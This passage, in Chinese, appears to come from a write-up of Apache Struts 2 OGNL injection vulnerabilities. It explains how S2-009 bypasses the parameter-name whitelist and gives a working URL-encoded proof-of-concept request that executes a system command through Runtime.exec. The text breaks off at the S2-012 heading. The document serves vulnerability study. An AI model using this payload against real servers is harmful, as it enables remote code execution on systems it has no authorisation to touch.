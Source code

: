 ```nil
compile:223, OgnlUtil (com.opensymphony.xwork2.ognl)
getValue:213, OgnlUtil (com.opensymphony.xwork2.ognl)
getValueUsingOgnl:277, OgnlValueStack (com.opensymphony.xwork2.ognl)
tryFindValue:260, OgnlValueStack (com.opensymphony.xwork2.ognl)
tryFindValueWhenExpressionIsNotNull:242, OgnlValueStack (com.opensymphony.xwork2.ognl)
findValue:222, OgnlValueStack (com.opensymphony.xwork2.ognl)
findValue:284, OgnlValueStack (com.opensymphony.xwork2.ognl)
intercept:219, DebuggingInterceptor (org.apache.struts2.interceptor.debugging)
...
```


## S2-009 {#s2-009}


### 影响范围 {#影响范围}

Struts 2.0.0 - Struts 2.3.1.1


### 漏洞描述 {#漏洞描述}

Struts 使用白名单解决了 S2-003 和 S2-005 从参数名注入 OGNL 表达式的情况，使用的
正则如下：

```text
private String acceptedParamNames = "[a-zA-Z0-9\\.\\]\\[\\(\\)_']+";
```

这个漏洞的成因是：类似 `top['foo'](0)` 这样格式的参数名可以通过校验，而 Struts 会
把它解析成 `(top['foo'])(0)`, 也就是把 `top['foo']` 当作表达式执行，这可以从上下文获
取 foo 变量的值

因此可以通过两个参数来绕过白名单：第一个参数的值写入恶意表达式，因为
ParametersInterceptor 只会校验参数名，所以参数值可以写入任意表达式；然后第二个参
数名解析的时候获取这个恶意表达式并执行

poc:

```text
/action?foo=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27mkdir%20/tmp/PWNAGE%27%29%29%28meh%29&z[%28foo%29%28%27meh%27%29]=true
```

(注意参数会根据首字母进行排序，要保证第一个参数的首字母排在前面)


## S2-012 {#s2-012}


### 影响范围 {#影响范围}

Struts Showcase App 2.0.0 - Struts Showcase App 2.3.14.2
